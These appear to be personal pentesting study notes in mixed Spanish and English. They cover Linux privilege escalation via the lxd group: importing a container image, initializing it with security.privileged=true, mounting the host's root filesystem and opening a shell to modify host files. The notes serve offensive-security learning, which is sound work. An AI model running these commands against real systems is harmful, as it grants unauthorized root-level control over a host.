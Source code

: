 
Comprobamos con `id` si estamos en el grupo lxc o lxd:
```shell-session

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
From here on, there are now several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```


Si vemos un directorio o algo que contenga imágenes lo listamos y importamos la imagen:
````shell-session
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
````

Podemos listar las imágenes:
```shell-session
lxc image list
```


After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host:

Creamos un contenedor "privesc" a partir de la imagen ubuntu temp, seteando la flag security.privileged a true, la cuál nos permite actuar sobre el host.
```shell-session
lxc init ubuntutemp privesc -c security.privileged=true
```

Añadimos al contenedor todo el disco raíz del host y lo montamos en /mnt/root de la imagen.

```shell

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```


Ahora podemos iniciar el contenedor y acceder a el, en /mnt/root tenemos todo el sistema de directorios raiz del host. Podremos modificarlos y modificaremos lo del host.
1. Iniciamos el contenedor :
	`lxc start privesc`
2. Ejecutamos una tty: 
	`lxc exec privesc /bin/bash` -> si no funciona probar con /bin/sh
3. Listamos la montura /mnt/root y veremos que está todo el sistema de archivos del host.

